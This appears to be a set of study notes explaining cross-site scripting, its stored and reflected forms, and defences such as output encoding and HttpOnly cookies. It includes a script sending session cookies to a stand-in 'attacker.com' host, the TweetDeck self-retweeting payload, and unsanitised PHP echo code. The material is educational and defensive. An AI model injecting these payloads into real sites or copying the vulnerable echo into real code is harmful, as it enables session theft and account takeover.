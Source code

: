 > [!motivation] The Dangers of Cross-Site Scripting (XSS)
>
> Cross-Site Scripting (XSS) is a prevalent security vulnerability in web applications, where an **attacker injects malicious scripts into web pages viewed by other users**. This type of attack leverages the trust a user has for a particular site, turning benign web pages into vehicles for delivering harmful scripts.

> [!idea] Understanding Stored XSS
>
> Stored Cross-Site Scripting (Stored XSS) occurs when malicious scripts are injected directly into a website's database through user inputs that are not adequately sanitized. These scripts are then delivered to other users' browsers when they access the compromised data.
>
> - **Persistence**: The malicious script persists in the database, affecting multiple users over time.
> - **Scope of Attack**: Can impact any user who accesses the data containing the script.
> - **Mitigation**: Requires stringent input validation and output encoding to prevent and neutralize these attacks.

> [!example] Example of Stored XSS Attack
>
> Consider a user who submits a comment on a blog post with the following malicious JavaScript embedded: `<script>alert('XSS');</script>`. If the comment is stored as-is in the database and then displayed to other users without sanitization, it executes the script in every visitor's browser, potentially leading to wider exploitation.

> [!idea] Exploring Reflected XSS
>
> Reflected Cross-Site Scripting (Reflected XSS) involves injecting a script into a web application that reflects the malicious script back to the user's browser as part of an immediate response. It typically occurs through URL parameters, form inputs, or any other data sent to the server that is then echoed back in the response.
>
> - **Immediate Execution**: The script does not persist in the database but is executed immediately in the user's browser.
> - **Social Engineering**: Often requires tricking a user into clicking a specially crafted link containing the malicious script.
> - **Prevention**: Focuses on validating and encoding user inputs and URL parameters to avoid executing untrusted scripts.

> [!example] Example of Reflected XSS Attack
>
> A user clicks on a link like `http://example.com/search?query=<script>alert('XSS');</script>`. The search term is reflected in the response without sanitization, causing the script to execute in the user's browser. This illustrates how attackers use social engineering to execute their scripts.

> [!consider] Stored vs. Reflected XSS
>
> - **Stored XSS**: Involves malicious scripts that are permanently stored on the server (e.g., in a database) and executed in multiple users' browsers when the stored data is displayed. This type of XSS is particularly harmful as it can affect many users over time. Mitigation includes thorough sanitization of stored data.
>
> - **Reflected XSS**: Occurs when a user's input is immediately returned by web applications without proper sanitization and displayed in the user's browser, executing malicious scripts. This form usually affects the user who sends the input and often requires social engineering to initiate. Preventing this involves real-time sanitization of inputs and outputs.

> [!idea] How XSS Attacks Facilitate Session Hijacking via Cookie Theft
>
> Cross-Site Scripting (XSS) can enable session hijacking by allowing attackers to inject scripts that covertly steal session cookies and send them to a malicious server. This attack bypasses the need for direct user interaction, making it harder to detect.
>
> - **Mechanism**: Attackers leverage XSS vulnerabilities to inject a script that accesses the session cookie and sends it to their server using an AJAX POST request. This approach keeps the user on the original page, maintaining the illusion of security.
> - **Impact**: Once the attacker obtains the session cookie, they can use it to impersonate the victim, accessing their account and sensitive data.
> - **Example**: An attacker injects the following script into a vulnerable web application:
>   ```javascript
>   var xhr = new XMLHttpRequest();
>   xhr.open("POST", "http://attacker.com/steal", true);
>   xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
>   xhr.send("session=" + encodeURIComponent(document.cookie));
>   ```
>   This script creates an XMLHttpRequest to send the session cookie to the attacker's server without disrupting the user's experience, effectively hijacking the session.

> [!example] Real Example: Self-Retweeting Tweet in TweetDeck
>
> The XSS attack that affected TweetDeck used the following JavaScript snippet embedded in a tweet:
>
> ```html
> <script class="xss">$('.xss').parents().eq(1).find('a').eq(1).click();$('[data-action=retweet]').click();alert('XSS in Tweetdeck')</script>♥
> ```
>
> - **Targeting the Script Element**: `$('.xss')` selects the `<script>` element itself using its class name 'xss'.
> - **Navigating the DOM**: `$('.xss').parents().eq(1)` navigates up the DOM to find the parent element of the `<script>` tag. This is typically a container like a `<div>` or `<span>` that contains the tweet.
> - **Finding and Clicking a Link**: `.find('a').eq(1).click();` looks for the second link within this parent container and simulates a click. This step could be designed to interact with other parts of the TweetDeck interface or to trigger additional actions like navigating or opening links.
> - **Triggering the Retweet**: `$('[data-action=retweet]').click();` specifically targets elements (usually buttons) with a `data-action` attribute set to 'retweet' and simulates a click, which causes the tweet to retweet itself.
> - **Alerting the User**: `alert('XSS in Tweetdeck')` then pops up an alert box, providing feedback that the XSS script executed, serving as a proof of concept for the attacker.

> [!idea] XSS Defense Strategies
>
> Protecting against XSS requires a multifaceted approach that includes validating user inputs, encoding outputs, using secure frameworks, and implementing strong Content Security Policies (CSP).
>
> - **Input Validation**: Ensure all inputs are checked and sanitized to prevent malicious data entry.
> - **Output Encoding**: Encode data before displaying it to users to neutralize potentially harmful scripts.
> - **Use of Frameworks**: Employ frameworks and libraries that automatically handle some aspects of XSS prevention.


> [!example] Preventing XSS in PHP
>
> To effectively prevent XSS attacks, user input must be sanitized before it is rendered on the web page. Below are examples of how a specific input is transformed using PHP's sanitization functions.
>
> **Before Sanitization:**
> User input: `<script>alert('XSS');</script>`
>
> **PHP Code Before Sanitization:**
> ```php
> // Displaying user input directly
> echo $_POST['user_input'];
> ```
> This will execute the JavaScript and show an alert if `user_input` is `<script>alert('XSS');</script>`.
>
> **After Sanitization Using `htmlspecialchars`:**
> **PHP Code After Sanitization:**
> ```php
> // Sanitizing user input to prevent XSS
> $safe_input = htmlspecialchars($_POST['user_input'], ENT_QUOTES, 'UTF-8');
> echo $safe_input;
> ```
> With this sanitized input, the output in HTML will be: `&lt;script&gt;alert('XSS');&lt;/script&gt;`, which is rendered as text rather than being executed as JavaScript. This approach prevents the script from running and neutralizes the XSS threat.


> [!consider] Preventing Session Hijacking from XSS
>
> To mitigate the risk of session hijacking due to XSS vulnerabilities, a combination of security measures should be implemented:
>
> - **Secure Cookie Handling**: Set the `HttpOnly` flag on session cookies to prevent client-side scripts from accessing them, mitigating theft through XSS.
> - **Secure Transmission**: Use the `Secure` flag to ensure session cookies are only transmitted over HTTPS, preventing eavesdropping on insecure connections.
> - **XSS Prevention**: Implement strict input validation, output encoding, and Content Security Policies (CSP) to prevent XSS vulnerabilities that enable session hijacking in the first place.





